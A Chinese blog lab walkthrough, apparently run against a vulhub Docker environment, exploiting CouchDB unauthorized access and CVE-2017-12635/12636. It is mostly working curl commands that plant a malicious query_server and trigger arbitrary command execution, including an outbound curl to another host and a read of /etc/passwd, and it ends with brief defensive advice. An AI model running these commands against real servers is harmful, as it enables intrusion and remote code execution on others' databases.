 # CouchDB未授权访问&命令执行


#### 漏洞简介以及危害
Apache CouchDB是一个开源数据库,专注于易用性和成为"完全拥抱web的数据库"。它是一个使用JSON作为存储格式,JavaScript作为查询语言,MapReduce和HTTP作为API的NoSQL数据库。
应用广广泛,如BBC用在其动态内容展示平台,Credit Suisse用在其内部的商品部⻔的市场框架,Meebo,用在其社交平台(web和应用程序),默认会在`5984端口`开放Restful的API接口口,如果使用
SSL的话就会监听在`6984端口`,用于数据库的管理功能。其HTTP Server默认开启时没有进行行行验证,而且绑定在0.0.0.0,所有用户均可通过API访问导致未授权访问。
在官方方配置文文档中对HTTP Server的配置有WWW-Authenticate:Set this option to trigger
basic-auth popup on unauthorized requests,但是很多用户都没有这么配置,导致漏洞产生。

在2017年11月15日，CVE-2017-12635和CVE-2017-12636披露，CVE-2017-12636是一个任意命令执行漏洞，我们可以通过config api修改couchdb的配置`query_server`，这个配置项在设计、执行view的时候将被运行。

影响版本：小于 1.7.0 以及 小于 2.1.1


#### 漏洞环境
vulnhub

#### 漏洞利用
CVE-2017-12636是需要登录用户方可触发，如果不知道目标管理员密码，可以利CVE-2017-12635[CVE-017-12635](https://blog.csdn.net/JiangBuLiu/article/details/94027581)先【增加一个管理员用户】，如果无须帐号密码，就可通过未授权访问进行命令执行
同样，记得在Burp的拦截端口添加一个5984


进入环境，并启动
```bash
cd couchdb/CVE-2017-12636/
docker-compose up -d
```


###### 未授权访问测试
```bash
curl http://192.168.0.100:5984
curl http://192.168.0.100:5984/_config
```

<img src="http://image.geoer.cn/CouchDB%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE1.png"></img>

###### 任意命令执行漏洞

```bash
# 本机python运行http服务(可以不运行这个步骤，这里只是做curl测试用的)
python -m SimpleHTTPServer 8888
```

1.6.0 下

```bash
#依次执行如下命令
curl -X PUT 'http://192.168.0.100:5984/_config/query_servers/cmd' -d '"curl http://192.168.0.105:8888/test.php"' # 这里可以执行任意命令
#curl -X PUT 'http://192.168.0.100:5984/_config/query_servers/cmd' -d '" cat /etc/passwd >> tmp/ext_passwd"' 
curl -X PUT 'http://192.168.0.100:5984/vultest'    # 添加一个Database和Document
curl -X PUT 'http://192.168.0.100:5984/vultest/vul' -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}'
curl -X POST 'http://192.168.0.100:5984/vultest/_temp_view?limit=11' -d '{"language":"cmd","map":""}' -H 'Content-Type: application/json'      # 在这个Database里查询，将language设置为cmd，这里就会用到我第一步里添加的名为cmd的query_servers，最后触发命令执行
```

2.1.0 下
```bash
# 2.1.0中修改了1.6.0用到的两个API
# Couchdb 2.x 引入了集群，所以修改配置的API需要增加node name。我们带上账号密码访问/_membership即可
curl http://<your-ip>:5984/_membership

# 利用(跟1.6.0类似)
curl -X PUT http://vulhub:vulhub@your-ip:5984/_node/nonode@nohost/_config/query_servers/cmd -d '"id >/tmp/CVE-2017-12636_is_success"'
curl -X PUT 'http://vulhub:vulhub@your-ip:5984/vultest'    #先增加一个Database和一个Document
curl -X PUT 'http://vulhub:vulhub@your-ip:5984/vultest/vul' -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}'
#Couchdb 2.x删除了_temp_view，所以我们为了触发query_servers中定义的命令，需要添加一个_view
curl -X PUT http://vulhub:vulhub@your-ip:5984/vultest/_design/vul -d '{"_id":"_design/test","views":{"wooyun":{"map":""} },"language":"cmd"}' -H "Content-Type: application/json"
#增加_view的同时即触发了query_servers中的命令。
```

<img src="http://image.geoer.cn/CouchDB%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE2.png"></img>

exp地址

```
https://github.com/vulhub/vulhub/blob/master/couchdb/CVE-2017-12636/exp.py
```

**nmap扫描**

```bash
nmap -p 5984 --script "couchdb-stats.nse" <target_ip>
```


#### 防御手段
- 绑定指定ip
- 设置访问密


---

> 作者: [剑胆琴心](http://shuai06.github.io)  
> URL: https://shuai06.github.io/couchdb%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C/  

